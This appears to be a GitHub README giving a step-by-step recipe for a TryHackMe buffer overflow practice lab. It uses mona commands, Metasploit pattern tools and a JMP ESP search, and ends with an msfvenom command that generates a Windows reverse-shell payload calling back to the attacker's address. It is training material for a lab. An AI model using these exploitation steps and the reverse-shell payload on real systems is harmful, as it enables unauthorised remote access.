 # How to use it

1 - Mona Configuration
\
`!mona config -set workingfolder c:\mona\%p` (Configure mona)

2 - Fuzzer payload
\
https://github.com/Lunox-code/TryHackMe-BufferOverflowPrep/blob/main/fuzzing.py

3 - Crash Replication & Controlling EIP
\
`/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 600` (Change the -l value to the value that crashed the server)
\
Then use Exploit payload:
\
https://github.com/Lunox-code/TryHackMe-BufferOverflowPrep/blob/main/exploit.py

4 - Search Offset
\
`!mona findmsp -distance 600` (Change the -l value to the value that crashed the server to find the EIP)
\
Then, update the exploit and set the offset variable. to the previews value and set retn to "BBBB"

5 - Finding bad characters
\
`!mona bytearray -b "\x00"`
\
then use badcharacter payload
\
https://github.com/Lunox-code/TryHackMe-BufferOverflowPrep/blob/main/badcharacters.py
\
`!mona compare -f C:\mona\oscp\bytearray.bin -a <address>` (Address EIP)
\
and try to find the badcharacters

6 - Find a Jump Point
\
METHOD 1
\
Use dump on ESP
********************
\
METHOD 2
\
`!mona jmp -r esp -cpb "\x00"`
\
Find a jump point (Search de addres to set on the exploit in the part of "retn")

7 - Prepend NOPs
\
`padding = "\x90" * 16`

8 - Create Shell
\
`msfvenom -p windows/shell_reverse_tcp LHOST=tun0IPHERE LPORT=4444 EXITFUNC=thread -b "\x00" -f c`

9 - Netcat listener

10 - exploit!
